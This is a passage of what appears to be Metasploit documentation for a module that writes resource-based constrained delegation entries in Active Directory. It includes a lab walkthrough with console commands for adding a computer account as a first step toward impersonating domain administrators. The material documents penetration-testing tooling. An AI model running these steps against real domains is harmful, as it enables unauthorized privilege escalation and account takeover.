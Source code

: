 ### WRITE
Add an ACE to the security descriptor DACL to enable RBCD. The new entry will be appended to the ACL after any existing
ACEs. No changes are made to the security descriptor if the ACE to enable RBCD already exists.

## Options

### DELEGATE_TO
The delegation target. This is the object whose ACL is the target of the ACTION (read, write, etc.). The authenticated
user must have write access to this object.

### DELEGATE_FROM
The delegation source. This is the object which is added to (if action is WRITE) or removed from (if action is REMOVE)
the delegation target.

## Scenarios

### Window Server 2019 Domain Controller

In the following example the user `MSFLAB\sandy` has write access to the computer account `WS01$`. The sandy account is
used to add a new computer account to the domain, then configures `WS01$` for delegation from the new computer account.

The new computer account can then impersonate any user, including domain administrators, on `WS01$` by authenticating
with the Service for User (S4U) Kerberos extension.

First create the computer account:

```msf
msf6 auxiliary(admin/dcerpc/samr_computer) > show options

Module options (auxiliary/admin/dcerpc/samr_computer):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   COMPUTER_NAME                       no        The computer name
   COMPUTER_PASSWORD                   no        The password for the new computer
   RHOSTS                              yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              445              yes       The target port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   ADD_COMPUTER  Add a computer account


msf6 auxiliary(admin/dcerpc/samr_computer) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(admin/dcerpc/samr_computer) > set SMBUser sandy
SMBUser => sandy
msf6 auxiliary(admin/dcerpc/samr_computer) > set SMBPass Password1!
SMBPass => Password1!
msf6 auxiliary(admin/dcerpc/samr_computer) > run
```